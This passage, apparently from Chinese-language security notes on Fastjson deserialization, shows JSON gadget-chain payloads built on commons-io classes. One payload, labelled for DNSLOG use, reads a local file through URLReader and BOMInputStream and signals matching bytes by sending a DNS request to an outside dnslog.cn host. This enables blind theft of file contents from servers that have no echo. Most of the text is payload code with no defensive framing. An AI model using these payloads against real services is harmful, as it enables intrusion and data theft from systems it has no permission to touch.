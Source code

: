```java
         "            \"bufferSize\": 1024\n" +
         "        },\n" +
         "        \"boms\": [\n" +
         "            {\n" +
         "                \"charsetName\": \"UTF-8\",\n" +
         "                \"bytes\": [\n" +
         "                    70,76\n" +  //文件内容的ascii，例如e:/ccc.txt中前两个字符FL，对应的ascii：70,76
         "                ]\n" +
         "            }\n" +
         "        ]\n" +
         "    },\n" +
         "    \"address\": {\n" +
         "        \"@type\": \"java.lang.AutoCloseable\",\n" +
         "        \"@type\": \"org.apache.commons.io.input.CharSequenceReader\",\n" +
         "        \"charSequence\": {\n" +
         "            \"@type\": \"java.lang.String\"{\"$ref\":\"$.abc.BOM[0]\"},\n" +
         "            \"start\": 0,\n" +
         "            \"end\": 0\n" +
         "        }\n" +
         "    }\n" +
         "}";
```
### Commons-IO - DNSLOG
存在commons-io依赖即可，字节正确则发起DNS请求，根据请求读取文件信息。适用于无回显条件。
```json
{
  "abc":{"@type": "java.lang.AutoCloseable",
    "@type": "org.apache.commons.io.input.BOMInputStream",
    "delegate": {
      "@type": "org.apache.commons.io.input.ReaderInputStream",
      "reader": {
        "@type": "jdk.nashorn.api.scripting.URLReader",
        "url": "file:///e:/ccc.txt"
      },
      "charsetName": "UTF-8",
      "bufferSize": 1024
    },"boms": [
      {
        "@type": "org.apache.commons.io.ByteOrderMark",
        "charsetName": "UTF-8",
        "bytes": [70,76] //与上述一致
      }
    ]
  },
  "address": {
    "@type": "java.lang.AutoCloseable",
    "@type": "org.apache.commons.io.input.BOMInputStream",
    "delegate": {
      "@type": "org.apache.commons.io.input.ReaderInputStream",
      "reader": {
        "@type": "jdk.nashorn.api.scripting.URLReader",
        "url": "http://lemono.s42bkn.dnslog.cn"
      },
      "charsetName": "UTF-8",
      "bufferSize": 1024
    },
    "boms": [{"$ref":"$.abc.BOM[0]"}]
  },
  "xxx":{"$ref":"$.address.BOM[0]"}
}
```
## Mysql-JDBC反序列化